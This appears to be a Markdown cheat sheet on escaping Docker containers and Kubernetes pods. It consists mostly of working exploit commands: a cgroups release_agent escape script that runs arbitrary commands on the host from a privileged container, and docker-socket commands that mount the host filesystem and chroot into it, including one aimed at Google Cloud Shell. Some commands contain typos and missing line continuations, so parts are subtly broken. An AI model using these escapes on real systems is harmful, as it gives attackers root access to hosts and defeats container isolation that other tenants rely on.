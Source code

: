 # Escaping docker

## Quick summary

Docker runs with root rights. Even when it's running within the docker group. The docker communicates with the containers through a unix socket.



Docker in docker is fairly common. To do this the host's docker socket has to be mounted in the docker container (there are other ways, but this is the most common one).  Used in e.g. Portainer.



The `--privileged` flag exploit relies on relaunching a docker container with this flag. When using this flag, containers have full access to all devices and lack restrictions from sccomp, AppArmor and Linux capabilities



Default unix socket:

    /var/run/docker.sock



## Quick and dirty way to get out of a privileged k8s pod or docker container

Using cgroups release_agent feature:

```bash
docker run -it --privileged busybox /bin/sh / # echo {payload} | base64 -d > undock.sh
```

Where payload is the following text, base64 encoded:

```bash
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
touch /o; echo $t/c >$d/release_agent;echo "#!/bin/sh
$1 >$t/o" >/c;chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";sleep 1;cat /o
```



## Example escape from google k8s

The host is mounted in the container at /host/google/docker/run

```bash
sudo docker -H unix://<docker socket> pull alpine:latest
sudo docker -H unix://<docker socket> run \
    -d \
    -it \
    --name <containername> \
    -v "/proc:/host/proc" \
    -v "/sys:/host/sys" \
    -v "/:/rootfs" \
    --network=host \
    --privileged=true
    --cap-add=ALL
    alpine:latest
sudo docker -H unix://<socket socket> start <containername>
sudo docker -H unix://<socker socket> exec -it <containername> /bin/sh
chroot /rootfs
# You are now in a container with a lot more privileges
docker ps #(will list all docker containers on host)

```



Example - escape docker cloud shell to host OS

```bash
sudodocker -H unix:///google/host/var/run/docker.sock run -v /:/host -it ubuntu chroot /host/bin/bash
```



Sources:

- https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/

- 
